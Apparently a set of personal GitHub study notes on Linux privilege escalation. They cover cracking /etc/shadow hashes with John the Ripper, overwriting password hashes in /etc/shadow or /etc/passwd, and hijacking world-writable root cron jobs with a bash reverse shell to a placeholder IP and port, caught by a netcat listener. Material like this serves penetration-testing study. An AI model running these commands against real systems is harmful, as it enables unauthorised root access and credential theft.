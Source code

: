 # Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.
  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before. <br>
  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.



  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.
  <img src="../imgs/sudoers.png" alt="sudoersImg" />
  <br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).
  <img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">

  - If one of these cron jobs are world-writable and you're **not** a root user, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run

